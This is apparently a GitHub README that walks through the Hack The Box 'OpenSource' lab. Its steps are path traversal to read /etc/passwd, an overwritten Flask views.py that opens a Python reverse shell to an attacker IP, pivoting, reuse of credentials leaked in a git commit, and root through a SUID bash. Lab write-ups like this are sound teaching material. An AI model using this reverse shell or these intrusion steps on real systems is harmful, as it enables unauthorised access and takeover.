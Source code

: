 # htb-opensource

## 📖 Documentation
-----
- [User Access](#user-access)
  - [LFI](#lfi)
  - [Reverse shell](#reverse-shell)
  - [Pivoting](#pivoting)
  - [User Credentials](#user-credentials)
- [Root Access](#root-access)
  - [Privilege Escalation](#privilege-escalation)


# User Access
### LFI

`os.path.join` function has an input of path, if this input equals to an absolute path, the command will throw other inputs and only reads the absolute path.

so getting the following URL gives us `/etc/passwd`

~~~
/uploads/..//etc/passwd
~~~


### Reverse shell

uploaded a `reverseshell.py` into `/app/app/views.py`

~~~
import os
from os import dup2
from subprocess import run

import socket

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))




s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",3984)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/sh","-i"])
~~~

Once inside the container realize that the port `3000` is not filtered. so we need **pivoting** and tunnel through the container to see the app running on `3000`


### Pivoting

used this [repo inside the container](https://github.com/BloodhoundAllfather/dembe)
now the webserver is available on my own lap top.

in `users` we see that a user named `dev01` exists.
tried bruteforcing  it with no luck. 

### User Credentials

Started digging in the source code and found [this](https://github.com/mohsenkamini/htb-opensource/commit/a76f8f75f7a4a12b706b0cf9c983796fa1985820)

using the creds to login inside the gitea and found an `id_rsa` which enables login to `dev01@opensource.htb`


# Root Access

### Privilege Escalation

Running `linpeas` show `/bin/bash` has `sbit`/`SUID` enabled. running `/bin/bash -p` provides root access.


